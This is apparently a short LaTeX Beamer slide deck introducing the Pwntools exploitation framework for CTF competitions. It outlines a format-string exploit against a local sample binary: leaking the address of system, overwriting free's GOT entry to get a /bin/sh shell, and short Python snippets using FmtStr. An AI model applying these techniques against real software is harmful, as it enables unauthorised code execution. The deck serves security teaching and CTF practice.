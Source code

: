 \documentclass[t]{beamer}
\title{Short and confusing introduction to Pwntools}
\author{Kokjo / Jonas Rudloff}
\begin{document}
\frame[plain]{\titlepage}

\begin{frame}
    \frametitle{What is pwntools?}
    \begin{itemize}
        \pause \item Pwntools is exploitation framework
        \pause \item For rapidly developing exploits.
        \pause \item Eg. for CTF competitions
        \pause \item Originally developed at the student organization Pwnies at DIKU
        \item With a lot of help from Zach Riggle(@ebeip90)
        \pause \item https://github.com/Gallopsled/pwntools
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Sample pwnable program}
    
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exploitation with Pwntools!}
    We are going the attack the format string bug in the program,
    \pause but first we need to be able to interact with the program
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
    from pwn import *
    r = process("./pwnable")
    r.interactive()
    \end{lstlisting}
    \pause Yay!
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exploitation plan}
    \begin{itemize}
        \pause \item Leak address of \texttt{system}
        \pause \item ... change the got entry of \texttt{free} to be the address of \texttt{system}
        \pause \item ... and choose our name to be \texttt{/bin/sh}
    \end{itemize}
    \pause
    \begin{lstlisting}[language=Python, style=custompy]
 from pwn import *
 r = process("./pwnable")
 r.sendlineafter("What's your name?", "/bin/sh")
    \end{lstlisting}
    \pause and we can call printf like
    \begin{lstlisting}[language=Python, style=custompy]
 @FmtStr
 def printf(s):
     r.sendline(s)
     return r.recvuntil("today?\n", drop=True)
    \end{lstlisting}
    \texttt{FmtStr} is pwntools magic,
    \pause which escalates a format string vulnerability to a full memory leaker,
    \pause and a write-what-where.
    \pause Using standard format string techniques.
\end{frame}
\end{document}
